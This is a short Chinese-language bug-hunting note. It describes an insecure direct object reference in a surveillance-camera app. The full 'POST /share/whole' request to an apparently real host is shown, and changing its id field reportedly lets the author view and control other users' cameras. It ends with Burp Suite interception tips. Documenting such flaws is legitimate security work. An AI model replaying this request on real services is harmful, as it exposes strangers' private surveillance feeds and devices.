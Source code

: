 ```yaml
---
tags:
  - 漏洞挖掘
---
```


>有些功能点有漏洞，不是这个漏洞多么难，
>而是隐藏的深一些，可能不是点击某个按钮才能触发...

受到老师这个指点，我爆破验证码登陆一直卡住不前，但是看监控的漏洞确是直接破获～
## 1. 获取信息找切入口
![[Pasted image 20230726011956.png|300]]
app登陆完毕，进入主页面时，进行抓包，查看所有请求历史，一起分析
![[CleanShot 2023-07-26 at 01.26.54@2x 1.png]]
最后这个请求，就是在拉取监控设备展示在主页：

```text
POST /share/whole HTTP/1.1
Host: xyx.wiki
Accept: */*
Content-Type: application/json
Content-Length: 15
Version: 1.6
Terminaltype: ios
User-Agent: StarEyeCN/1.6 (iPhone; iOS 17.0; Scale/3.00)
Accept-Language: zh-Hans-CN
Accept-Encoding: gzip, deflate
Connection: close

{"id":"177493"}
```

于是想到，直接将id更改为其他人的，就神奇地成功了!
## 2. 攻击
手机刷新主页，抓住`POST share/whole` 请求，将id更改，再提交！
![[CleanShot 2023-07-26 at 01.32.11 1.gif|500]]
手机的刷新结果即成为了其他人的设备页面，可以直接查看和操纵...
![[Pasted image 20230726013722.png|300]]
![[Pasted image 20230726013727.png]]

## tips
>给大家在说一个渗透思维，有的时候不要一个一个的抓数据包，先挂着burpsuite，等你点了几个功能后，再回去看最近的历史数据包，最后再测试，如果每次只看一个数据包的话，可能看不太出来时做啥用的。还有不光要看请求包，还要看他的响应包，结合来看，效果最好。
